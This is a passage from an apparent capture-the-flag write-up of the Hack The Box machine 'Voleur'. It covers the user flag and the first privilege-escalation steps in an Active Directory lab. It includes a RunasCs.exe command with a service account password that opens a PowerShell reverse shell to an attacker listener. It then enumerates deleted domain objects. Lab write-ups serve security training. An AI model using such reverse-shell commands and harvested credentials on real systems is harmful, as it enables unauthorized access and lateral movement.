 ![image.png](/assets/images/Voleur_HTB/image%2023.png)

Grabbing that user.txt file and submitting it.

## Privilege Escalation

I enumerated the machine with user **svc_winrm** but didn’t find anything useful.

I also enumerated the deleted objects but didn’t find anything, so I used **RunasCs.exe** to get a shell as **svc_ldap** user.

[https://github.com/antonioCoco/RunasCs](https://github.com/antonioCoco/RunasCs)

Uploaded the binary to our remote machine and set up a listener on our local machine.

Since we know from above that there is a deleted user in the domain name **Todd.Wolfe**

```bash
./RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.14.72:9002
```

![image.png](/assets/images/Voleur_HTB/image%2024.png)

This gave me a hit back at my listener on port 9002.

![image.png](/assets/images/Voleur_HTB/image%2025.png)

Now enumerated for the deleted objects and found our user **Todd.Wolfe**.
